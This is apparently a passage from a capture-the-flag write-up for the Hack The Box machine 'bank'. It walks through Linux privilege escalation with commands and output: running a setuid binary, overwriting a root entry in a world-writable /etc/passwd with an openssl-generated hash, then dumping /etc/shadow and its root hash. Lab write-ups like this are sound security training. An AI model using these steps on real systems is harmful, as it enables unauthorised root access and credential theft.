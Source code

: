 ```
www-data@bank:/var/htb/bin$ ./emergency
./emergency
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

### Abusing write filepermission on /etc/passwd

There is also another interesting finding in the script output:

```
[-] Can we read/write sensitive files:
-rw-rw-rw- 1 root root 1252 May 28  2017 /etc/passwd
-rw-r--r-- 1 root root 707 May 28  2017 /etc/group
-rw-r--r-- 1 root root 665 Feb 20  2014 /etc/profile
-rw-r----- 1 root shadow 895 Jun 14  2017 /etc/shadow
```
We have write access to the passwd file. This means that we can edit the file and assign a password of our choice to the root user: 

We create an encrypted password with openssl:

```
www-data@bank:/var$ openssl passwd hacker123
openssl passwd hacker123
Warning: truncating password to 8 characters
5J8cCAObXpe6Y
```

Edit the passwd file to `root:5J8cCAObXpe6Y:0:0:root:/root:/bin/bash`

```
www-data@bank:/var$ su root
Password: 
root@bank:/var# id
uid=0(root) gid=0(root) groups=0(root)
root@bank:/var# 
```

## Dumping credentials

After owning a box I usually try to dump any crendentials.

The shadowfile:
```
root@bank:/var# cat /etc/shadow
root:$6$FCg1BF62$e7YBRYXSLEOtVNayn2YGtIr1bXxsEMv.sIVc9XSKKeO..BxK1AGzEbQ2KjnvEOcrgcDrmBZyJOZpLs6KXhyYv/:17331:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
```